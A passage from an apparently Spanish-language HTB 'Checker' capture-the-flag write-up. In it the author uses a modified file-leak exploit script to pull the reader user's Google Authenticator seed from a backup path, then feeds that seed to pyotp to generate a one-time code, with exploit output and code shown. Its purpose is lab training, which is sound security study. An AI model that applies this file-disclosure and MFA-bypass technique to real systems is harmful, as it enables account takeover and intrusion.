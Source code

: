 ![Uh Oh, so](/assets/writeups/checker/6.png)

¿Será que el creador estará usando este mismo script para hacer sus copias de seguridad? Si es así, podriamos intentar ver su directorio personal, y hablando de la semilla OTP, si se está utilizando Google authenticator (que es el más usado para OpenSSH) la misma estará dentro del archivo `/home/<username>/.google_authenticator`. Si con el script que acabamos de modificar probamos a ver si el archivo se encuentra en la supuesta copia de seguridad (`/backup/home_backup/home/reader/.google_authenticator`) veremos que:

```bash
[*] The following URL is targeted : http://checker.htb/ajax/page/10/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal data used : {"name":"New Pageasdasd"}
... [snip]
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

¡Estamos de suerte!

Con la librería de Python `pyotp` podremos obtener el código correspondiente:

```python
>>> import pyotp
>>> uwu = pyotp.TOTP("DVDBRAODLCWF7I2ONA4K5LQLUE")
>>> uwu.now()
'778754'
```

y funciona:
